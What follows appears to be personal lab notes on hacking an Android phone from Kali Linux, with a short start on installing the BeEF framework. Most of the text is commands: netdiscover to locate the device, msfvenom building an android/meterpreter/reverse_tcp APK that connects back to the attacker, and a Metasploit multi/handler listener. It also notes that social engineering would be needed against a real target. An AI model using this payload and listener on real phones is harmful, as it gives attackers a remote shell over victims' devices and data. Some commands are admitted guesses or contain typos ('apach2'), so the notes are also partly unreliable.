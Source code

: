 Find the Android device
```sh
sudo netdiscover -i eth0 -r <attacker-ip>
```

Find out the Android devices IP by using termux listed under wlan0 It will also show the Kali machine's IP.

Enable the Kali server so we can transfer files:
```sh
sudo service apach2 start
```

Create a payload 
```sh
sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -o /var/www/html/payloads/A51.apk
```
- Android extensions - .apk

_This could be a wrong command but i'll add it so i can try it later_
```sh
sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 R > /var/www/html/payloads/A51.apk
```
- Maybe the capital R stands for redirect but i don't know until i try it.

Open Metasploit and set-up a listener but this time for an Android device:
```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set PAYLOAD android/meterpreter/reverse_tcp
```
- payload is not case sensitive so you don't have to make it all caps, it will still work in lowercase

Again we check options to see what needs to be set. Then set the LHOST as the attacker IP. Exploit to start the listener.

Now if we navigate to the Kali sever and download the file (we would need to use something like social engineering if this was a real target) we can run it and get the meterpreter shell.

After installing the file you can run the App which is called MainActivity.  

---

**BeEF Framework**

Update Kali
```sh
sudo apt-get update
```

Install beef from git
```sh
cd /opt
git clone https://github.com/beefproject/beef.git
cd beef
./install
```
